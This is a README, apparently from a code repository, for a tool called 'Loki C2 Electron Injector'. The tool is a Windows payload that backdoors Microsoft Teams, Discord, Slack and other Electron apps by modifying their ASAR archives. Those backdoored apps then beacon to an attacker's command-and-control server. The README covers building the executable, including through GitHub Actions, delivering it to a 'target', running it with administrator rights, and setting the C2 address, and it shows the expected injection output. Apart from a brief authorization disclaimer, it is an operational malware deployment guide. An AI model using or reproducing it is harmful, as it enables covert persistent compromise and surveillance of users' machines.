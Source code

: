 # Windows Payload - Loki C2 Electron Injector

## 🎯 Quick Start

### Option 1: GitHub Actions CI/CD (Recommended! 🚀)

**Build .exe in the cloud - No Windows machine needed!**

```bash
# 1. Push workflow to GitHub
git add .github/workflows/build-windows-exe.yml
git commit -m "Add Windows build pipeline"
git push

# 2. Go to GitHub → Actions → "Build Windows EXE" → Run workflow
# 3. Download loki_injector.exe from Artifacts (2-3 min build time)
# 4. Done! ✅
```

**See:** `GITHUB_ACTIONS_BUILD.md` for full guide

---

### Option 2: Build on Windows

```batch
# On Windows machine:
build.bat

# Output: dist\loki_injector.exe
```

---

### Option 3: Run Python Script Directly (No Build!)

```bash
# Transfer to Windows:
scp loki_injector.py admin@windows:C:\Temp\

# On Windows:
python loki_injector.py
# Same functionality as .exe!
```

## 📦 What's Included

```
loki_injector.py         - Main payload source
build.bat               - Windows build script
build_docker.sh         - macOS Docker build script
BUILD_WINDOWS_EXE.md    - Detailed build instructions
```

## 🚀 Usage

### After Building:

1. **Transfer to target:**
   ```
   dist/loki_injector.exe  →  Windows target machine
   ```

2. **Execute on target:**
   - Right-click `loki_injector.exe`
   - Select "Run as Administrator"
   - Wait for completion

3. **What it does:**
   - ✅ Scans for vulnerable Electron apps (Teams, Discord, Slack)
   - ✅ Automatically installs required tools (asar)
   - ✅ Creates backups (.backup files)
   - ✅ Injects backdoor into ASAR files
   - ✅ Shows detailed progress
   - ✅ No manual steps required!

## 🎯 Targets

Primary targets (auto-detected):
- **Microsoft Teams** (High Priority)
- **Discord** (High Priority)
- **Slack** (Medium Priority)
- Atom, Signal Desktop (Lower Priority)

## ⚙️ Configuration

### Change C2 Server

Before building, edit `loki_injector.py` line ~30:

```python
const cfg = {
    srv: 'https://YOUR-C2-SERVER.com',  # ← Change this
    int: 60000,
    id: `${os.hostname()}_${os.userInfo().username}`
};
```

## 📋 Requirements

### Build Requirements:
- **Windows:** Python 3.8+, pip
- **macOS (Docker):** Docker Desktop

### Target Requirements:
- Windows OS
- Administrator privileges
- At least one target Electron app installed

## 🛡️ Security Notice

**For authorized penetration testing only!**

- Only use on systems you own or have permission to test
- Malicious use is illegal
- This is a security research tool

## 📊 Expected Output

```
============================================================
Loki C2 - Electron Injector
============================================================

[*] Scanning for Electron applications...
[+] Found: Microsoft Teams
    Path: C:\Users\...\Microsoft\Teams\resources\app.asar

[*] Installing asar tool...
[+] asar tool installed

[*] Stopping Microsoft Teams...
[+] Microsoft Teams stopped

[*] Injecting into Microsoft Teams...
[+] Backup created: app.asar.backup
[+] Extracted ASAR
[+] Created preload.js
[+] Modified index.js
[+] Repacked ASAR
[+] Microsoft Teams injected successfully!

============================================================
INJECTION COMPLETE
============================================================
Successfully injected: 1
  - Microsoft Teams

[*] Restart the injected applications to activate backdoor
```

## 🔧 Troubleshooting

### "Administrator privileges required"
→ Right-click and select "Run as Administrator"

### "No vulnerable Electron apps found"
→ Install Microsoft Teams, Discord, or Slack

### "asar tool installation failed"
→ Install Node.js first: https://nodejs.org/

### Build fails on macOS
→ Install Docker: `brew install --cask docker`

## 📁 File Size

- **Source:** ~8 KB
- **Built .exe:** ~10-15 MB (includes Python runtime)

## ✅ Next Steps

1. Read `BUILD_WINDOWS_EXE.md` for detailed instructions
2. Choose your build method
3. Build the executable
4. Test in isolated lab environment
5. Deploy with authorization

---

**Ready to build?** Run `build.bat` on Windows or `./build_docker.sh` on macOS!
